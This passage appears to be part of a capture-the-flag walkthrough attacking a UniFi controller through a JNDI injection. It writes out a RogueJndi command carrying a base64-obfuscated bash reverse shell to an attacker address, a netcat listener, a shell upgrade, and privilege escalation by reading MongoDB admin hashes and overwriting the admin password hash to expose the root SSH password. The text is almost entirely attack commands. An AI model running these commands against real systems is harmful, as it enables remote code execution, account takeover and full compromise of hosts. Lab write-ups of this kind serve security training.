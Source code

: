 Example:
```shell
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMzMvNDQ0NCAwPiYxCg==}|{base64,- d}|{bash,-i}" --hostname "10.10.14.33
```


Open netcat listener to capture reverse shell:
```shell
nc -lvp 4444
```

Go to burpsuite and send againt on repeater the jndi string, on Netcat console type the following command to get an interactive shell:
```
script /dev/null -c bash
```

# Privilege Escalation

Find mongodb port:
```shell
ps aux|grep mongo
```

Searching on google we find that the default mongodb name used by Unify is ace, lets check passwords information:
```shell
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`
```

Passwords are on SHA-512 Algorighm, let's generate a new password:
```shell
mkpasswd -m sha-512 Password1234
$6$sbnjIZBtmRds.L/E$fEKZhosqeHykiVWT1IBGju43WdVdDauv5RsvIPifi32CC2TTNU8kHOd2ToaW8fIX7XXM8P5Z8j4NB1gJGTONl1
```

Update admin password:
```shell
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$NCavlUJoPQR4Np7P$rb9bQDPyEfZg0WJ6f0Rt0duLSvsnnY5EVwQiQpFk.y49ra/cUD2b/B3D06gMJ6HTF5VudOTs3PM2Ynk9SR6hd0"}})'
```

Let's now visit website with administrator and Paswrod1234 and go to settings -> site, go to ssh section and unmask root ssh password. Ready to get root/user flags.

